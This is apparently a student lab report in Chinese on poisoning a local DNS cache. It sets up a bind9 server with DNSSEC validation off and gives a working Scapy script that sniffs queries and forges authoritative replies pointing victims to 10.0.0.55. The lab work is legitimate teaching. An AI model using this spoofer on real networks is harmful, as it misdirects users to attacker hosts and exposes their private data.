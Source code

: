 # 第9章实验报告

[TOC]

## 实验名称

实现本地 DNS 缓存中毒攻击

## 实验原理

通过污染DNS Cache，用虚假的IP地址信息替换Cache中主机记录的真实IP地址信息，可以改变域名和IP的映射关系，使得用户在访问某网站时被错误引导至攻击者的网站中，从而暴露隐私信息。

## 实验环境

### DNS 服务器

**Ubuntu22.04**作为域名解析服务器，配置`bind9`流程如下

```shell
sudo apt install bind9 bind9utils bind9-doc bind9-host
sudo systemctl status bind9
# 开启53端口
sudo ufw allow 53
```

- 安装`bind9`后默认启动

<img src="./img/9-1.png" alt="9-1" style="zoom:67%;" />

```
bind 内容包括
    name DNS服务
    named-chkconfig(named.conf文件检查工具)
    named-checkzone(zone文件检查工具)
    rndc(本地和远程DNS控制工具)
bind-libs: named DNS服务库
bind-utils: 辅助工具
	host, dig, nslookup, nsupdate
bind-chroot: 切根程序用于切换到更安全的目录`/var/named/chroot`

bind 配置文件
/etc/bind/named.conf
其中引用了3个文件
    include "/etc/bind/named.conf.options";        # 默认创建
    include "/etc/bind/named.conf.local";          # 默认创建
    include "/etc/bind/named.conf.default-zones";

```

- bind9设置允许查询和转发，并关闭dnssec

```
// Global Profile

options {
        directory "/var/cache/bind";

		// 允许查询和转发
        forwarders { 8.8.8.8; };
        allow-query { any; };
        recursion yes;

        dnssec-validation no;  // 禁用dnssec
        auth-nxdomain no;
        listen-on-v6 { any; };
};

```

### 客户机

在客户机`/etc/resolv.conf`添加DNS*服务器*的IP地址

```
nameserver 192.168.*.*
```

### 攻击机

- 安装`scrapy`，编写Python程序监听DNS服务器，并伪造DNS权威服务器回复信息。

```python
from scapy.all import *


def spoofDNS(pkt):
    if (DNS in pkt):
        print("sniff: ", pkt[DNS].qd.qname.decode())
        IPpkt = IP(dst=pkt[IP].src, src=pkt[IP].dst)
        UDPpkt = UDP(dport=pkt[UDP].sport, sport=53)
        Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A', rdata='10.0.0.55', ttl=172800)

        DNSpkt = DNS(
            id = pkt[DNS].id,
            qd = pkt[DNS].qd,
            aa = 1,
            rd = 0,
            qdcount = 1,
            qr = 1,
            ancount = 1,
            nscount = 0,
            an = Anssec
        )
        spoofpkt = IPpkt / UDPpkt / DNSpkt
        send(spoofpkt)

pkt = sniff(filter = 'udp and (src host 192.168.177.134 and dst port 53)', prn = spoofDNS)

```

## 实验步骤

1. 攻击机运行Python程序，伪造DNS服务器的回复信息；
2. 客户机访问某个域名，结果跳转到攻击程序指定的IP地址`10.0.0.55`，结果如下图

<img src="./img/9-2.png" alt="9-2" style="zoom:80%;" />

并且可以看到攻击机发送了伪造数据包

<img src="./img/9-3.png" alt="9-3" style="zoom:50%;" />
